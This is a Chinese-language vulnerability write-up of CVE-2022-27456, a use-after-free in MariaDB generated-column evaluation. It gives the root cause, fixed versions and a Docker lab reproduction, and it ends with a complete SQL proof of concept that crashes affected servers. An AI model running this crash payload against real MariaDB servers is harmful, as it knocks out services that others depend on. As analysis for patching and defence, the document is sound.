



# CVE-2022-27456 MariaDB UAF

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。

## 漏洞原理


在表达式树的语句区域的一部分已被回收后，MariaDB 会评估包含 JSON 格式、`LIKE`、算术和小数比较的虚拟/生成列表达式。十进制比较路径将过时的 `Item` 传递到 `VDec::VDec(Item*)`，后者调用 `item->val_decimal()` 并读取已释放的内存。由此产生的释放后使用会终止 ASan 下的服务器，并可能导致正常构建崩溃。

## 漏洞定位


根据 CVE 记录和 MDEV-28093 的 ASan 调用栈，首次非法读取发生在 `sql/sql_type.cc` 的 `VDec::VDec(Item*)`（报告中的第 301 行）。该构造函数读取十进制值时，传入的 `Item` 可能已经位于被回收的表达式内存中。

触发链是 `VDec::VDec()` → `Arg_comparator::compare_decimal()`(`sql/item_cmpfunc.cc`)→ `Item_func_eq::val_int()` → `Item_cond_and::val_int()` → `Item_func_json_format::val_str()` → `Item_func_like::val_int()` → `TABLE::update_virtual_fields()`。

```cpp
VDec::VDec(Item *item)
{
  /* item can be stale while the generated-column expression is evaluated. */
  m_ptr= item->val_decimal(&m_buffer);
  m_is_null= item->null_value;
}
```

PoC 将 `JSON_DETAILED`、`LIKE`、算术表达式和虚拟列组合起来，使生成列求值进入十进制比较路径。ASan 在 `VDec::VDec()` 中报告 `READ of size 8`，因此该构造函数是直接触发点。

## 漏洞修复


升级到 MariaDB 10.3.35、10.4.25、10.5.16、10.6.8、10.7.4 或包含 MDEV-28093 修复的对应分支更高版本。补丁确保生成列表达式对象在十进制比较求值期间保持有效，防止 `VDec::VDec(Item*)` 接收到来自已释放表达式内存区的 `Item`。

作为临时缓解措施，应限制表定义权限，并避免在受影响服务器的生成列中组合 JSON 格式化、`LIKE`、算术运算和十进制比较。该措施无法覆盖所有等价触发形式，因此仍必须升级。

## 影响范围


**受影响的版本：** MariaDB：

- 10.3.0 至 10.3.34
- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2022-27456-PoC.sql 。

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27456-PoC.sql，可以看到遇到断开了连接且容器自动关闭

```sql
source CVE-2022-27456-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到检测出了 UAF 发生导致 DoS，且问题出在`VDec::VDec(Item*)`中，和漏洞原理对应。

```bash
docker logs mariadb-10.6.3
```



## POC分析


```sql
CREATE TABLE v0 ( v2 INT PRIMARY KEY , v1 SERIAL NOT NULL ) ;
INSERT INTO v0 VALUES ( 16 , NULL ) ;
ALTER TABLE v0 ADD v0 FLOAT AS ( ( 'x' LIKE JSON_DETAILED ( ( CURRENT_USER * ( TRUE AND COALESCE ( 255 | TRUE , 0 ) = 127 ) ) ) ) ) ;
SELECT * , v1 IN ( 'x' ^ -128 , -1 ) FROM v0 AS v0 ORDER BY v2 FOR UPDATE ;
SELECT * , v2 IN ( 'x' ^ 45 , -1 ) FROM v0 AS v0 ORDER BY v2 ;
SELECT * FROM v0 WHERE NOT ( 'x' = v1 AND v2 = -1 ) ORDER BY v1 ;
SELECT * FROM v0 WHERE NOT ( 'x' = v1 AND v2 = 8 ) ORDER BY v1 ;
```

## 参考链接


[NVD - CVE-2022-27456](https://nvd.nist.gov/vuln/detail/CVE-2022-27456)

[[MDEV-28093\] MariaDB UAP issue - Jira](https://jira.mariadb.org/browse/MDEV-28093)
